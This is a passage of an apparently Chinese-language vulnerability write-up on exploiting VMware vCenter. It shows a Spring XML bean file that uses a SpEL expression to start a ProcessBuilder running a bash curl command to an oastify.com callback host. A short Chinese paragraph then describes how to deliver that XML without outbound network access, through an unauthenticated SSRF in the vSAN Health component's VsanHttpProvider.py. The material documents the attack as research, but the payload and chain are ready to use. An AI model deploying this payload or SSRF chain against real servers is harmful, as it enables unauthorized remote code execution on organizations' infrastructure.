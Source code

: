 |     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>``` | ```xml<br><?xml version="1.0" encoding="UTF-8"?><br><beans xmlns="http://www.springframework.org/schema/beans"<br>       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"<br>       xmlns:context="http://www.springframework.org/schema/context"<br>       xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd http://www.springframework.org/schema/context https://www.springframework.org/schema/context/spring-context.xsd"><br><br>    <bean id="pb" class="java.lang.ProcessBuilder"><br>        <constructor-arg><br>            <list><br>                <value>/bin/bash</value><br>                <value>-c</value><br>                <value>curl http://dj0esgxds3fv9m4a0a6dzorr0i69uy.oastify.com</value><br>            </list><br>        </constructor-arg><br>        <property name="whatever" value="#{pb.start()}" /><br>    </bean><br></beans><br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205071839644.png-water_print](assets/1708572547-edf9dcfcc625956e3da9e679e08030d9.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205071839644.png-water_print")

##### [](#%E4%B8%8D%E5%87%BA%E7%BD%91%E5%88%A9%E7%94%A8)不出网利用

若要利用此漏洞，本质上需要获取一个 XML 文件的内容，而 Java 的 URL 并不支持 data 协议，那么需要返回内容可控的 SSRF 或者文件上传漏洞。这里利用的是返回内容可控的 SSRF 漏洞。漏洞位于 `/usr/lib/vmware-vpx/vsan-health/pyMoVsan/` 下的 vSAN Health 组件中 `VsanHttpProvider.py` 存在一个未授权访问 SSRF。
